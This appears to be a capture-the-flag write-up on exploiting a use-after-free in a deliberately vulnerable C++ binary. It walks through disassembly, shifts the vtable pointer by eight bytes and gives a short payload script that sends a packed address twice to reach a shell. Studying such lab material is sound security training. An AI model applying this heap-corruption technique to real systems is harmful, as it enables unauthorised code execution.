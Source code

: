If we look at this assembly code, we know that the offset address of option 1 called is 8. That's the `introduce` function.
```
<+265>:	mov    rax,QWORD PTR [rbp-0x38]
<+269>:	mov    rax,QWORD PTR [rax]
**<+272>:	add    rax,0x8**
<+276>:	mov    rdx,QWORD PTR [rax]
<+279>:	mov    rax,QWORD PTR [rbp-0x38]
```
`$rbp-0x38` contains heap address which points to 0x401570. If i'm not mistaken, this is first entry of virtual pointer table in this binary and it points to `get_shell` function. If I can manage to change the pointer to 0x401568 (0x401570 - 8), I'll beat it.

According to this site: https://medium.com/@c0ngwang/the-art-of-exploiting-heap-overflow-part-5-934192cba269, freed chunks in heap (if it's a fast bin) will ordered in LIFO order.
Because we have 2 objects, `m` and `w` respectively, and I have to fill at least `m` object, I sent the `evil payload` 2 times. First one will fill in `w` object, and the second one will fill `m` object.
```
evil = pack("II", 0x401570-8, 0x0000000)
p.sendline('2')
p.sendline(evil)
p.recv(1024)
p.sendline('2')
p.sendline(evil)
p.recv(1024)
```
From here the heap `$rbp-0x38` points to must be filled by address of -8 byte shifted.
So if I choose option 1, I will get the shell.







SPOILER ALERT!!!








[Spoiler](spoiler.png)
